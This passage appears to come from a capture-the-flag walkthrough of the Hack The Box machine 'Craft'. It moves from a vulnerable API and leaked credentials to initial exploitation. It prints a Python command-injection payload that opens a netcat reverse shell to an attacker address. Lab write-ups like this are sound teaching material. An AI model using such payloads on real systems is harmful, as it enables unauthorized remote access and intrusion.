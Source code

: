 ![Added test](/wp-content/uploads/2020/01/craft/added_test.png)
**Figure 5:** add test script you say!?

Download the test script from here and we'll use it to send a payload to the app. `https://gogs.craft.htb/Craft/craft-api/src/10e3ba4f0a09c778d7cec673f28d410b73455a86/tests/test.py`


# Exploitation

## Initial Foothold
So far we've found an API, a `git` repository containing Python code which seems vulnerable to command injection, as well as a commit containing credentials and a test script.

Developing the exploit isn't easy. We can test the code locally but we don't know exactly what's installed on the machine. This process required developing several payloads that ran correctly locally, only to fail on the box. As it turns out, the box doesn't have `bash` installed on it. Eventually we're able to gain a reverse shell using netcat with the following payload sent to `avb`.

```python
"""__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.186 4444 >/tmp/f") """
```
